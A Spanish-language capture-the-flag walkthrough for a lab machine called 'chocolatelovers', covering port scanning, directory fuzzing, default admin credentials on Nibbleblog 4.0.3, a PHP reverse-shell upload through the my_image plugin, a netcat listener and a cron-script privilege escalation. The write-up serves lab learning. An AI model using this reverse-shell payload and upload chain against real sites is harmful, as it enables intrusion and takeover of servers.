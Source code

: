 ### Maquina chocolatelovers

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

80/tcp open  http    syn-ack ttl 64

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80 -vvv -Pn 172.17.0.2

![alt text](1.png)

## Entrando en la web

Al entrar en la web y haciendo ctrl + u podemos ver una ruta comentada llamada /nibbleblog

entramos: 

http://172.17.0.2/nibbleblog

utilizamos whatweb para ver las tecnologias que usa:

whatweb -a 3 http://172.17.0.2/nibbleblog
http://172.17.0.2/nibbleblog [301 Moved Permanently] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[172.17.0.2], RedirectLocation[http://172.17.0.2/nibbleblog/], Title[301 Moved Permanently]
http://172.17.0.2/nibbleblog/ [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[172.17.0.2], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[chocolate lovers - chocolate lovers]


y encontramos:

http://172.17.0.2/nibbleblog/admin.php


credenciales admin, admin


## FUZZING WEB

gobuster dir -t 200 -u http://172.17.0.2/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404 2>/dev/null



/content              (Status: 200) [Size: 1352]
/feed.php             (Status: 200) [Size: 1289]
/themes               (Status: 200) [Size: 1740]
/admin.php            (Status: 200) [Size: 1401]
/admin                (Status: 200) [Size: 2126]
/plugins              (Status: 200) [Size: 3776]
/index.php            (Status: 200) [Size: 3403]
/install.php          (Status: 200) [Size: 78]
/update.php           (Status: 200) [Size: 1792]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 200) [Size: 3166]
/sitemap.php          (Status: 200) [Size: 541]
/LICENSE.txt          (Status: 200) [Size: 35148]
/COPYRIGHT.txt        (Status: 200) [Size: 1272]


En /README , encontramos:

====== Nibbleblog ======
Version: v4.0.3


## Intrusion

Creamos un archivo php malicioso:

lo llame rev-shell.php

<?php 
exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1' ");
?>


lo subimos como imagen dentro del plugin my_image

![alt text](image.png)


luego nos ponemos en escucha: nc -nlvp 443, para luego navegar a la siguient ruta

![alt text](image-1.png)


http://172.17.0.2/nibbleblog/content/private/plugins/my_image/image.php?cmd=id

![alt text](image-2.png)

acceso:

![alt text](image-3.png)

hacemos tratamiento de la tty
script /dev/null -c bash
ctrl + z
ctrl + z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash

luego ejecute el comando cat /etc/passwd | grep bash, para ver todos los usuarios y hay un usuario chocolate

![alt text](image-4.png)

luego ejecute sudo -l para escalar privilegios y me sale que puedo escalar a chocolate

![alt text](image-5.png)

ahora soy el usuario chocolate

## Escalar privilegios

hice el comando ps -faux

![alt text](image-6.png)

y vi que hay un /opt/script.php que se ejecuta cada cierto tiempo entonces le reemplace las lineas por las siguientes


![alt text](image-7.png)

![alt text](image-8.png)